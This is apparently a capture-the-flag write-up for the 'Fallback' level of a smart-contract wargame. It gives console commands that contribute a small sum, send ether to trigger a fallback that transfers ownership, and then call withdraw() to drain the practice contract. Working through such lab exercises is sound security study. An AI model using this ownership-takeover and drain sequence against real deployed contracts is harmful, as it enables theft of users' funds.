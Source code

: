 # Fallback Solution

In the console run the following command:
```
await contract.contribute.sendTransaction({
    from: player,
    to: "0x91d39e2F5C5c64B34Bf2572e60501e2225808309",
    value: '990000000000000'
})
```

This will call the contribute function while also allowing you to send some ether(in wei units). we send exactly 990000000000000 wei so that way we meet the require function requirements ```require(msg.value < 0.001 ether);```

Calling the function normally like this ``` contract.contribute``` would only send a transaction with 0 ether sent with it. besides gas of course but that is to pay the validators to run it.

Now that we have some contribution to the contract we can now just send ether directly to the contract using the metamask send feature or we can use the console still and run
```
await contract.sendTransaction({
    from: player,
    to: "0x91d39e2F5C5c64B34Bf2572e60501e2225808309",
    value: '1000000000000000'
})
```
Then we can check if we are the owner by running 
```
await contract.owner()
```

If it returns our metamask address then we are the owner now! WooHoo!

Then the last thing we need to do is rob the contract so run the line below to take all their ether! 
```
await contract.withdraw()
```
You can check the contract on etherscan to make sure it's fully drained if you want aswell, but now you can submit the instance to complete it!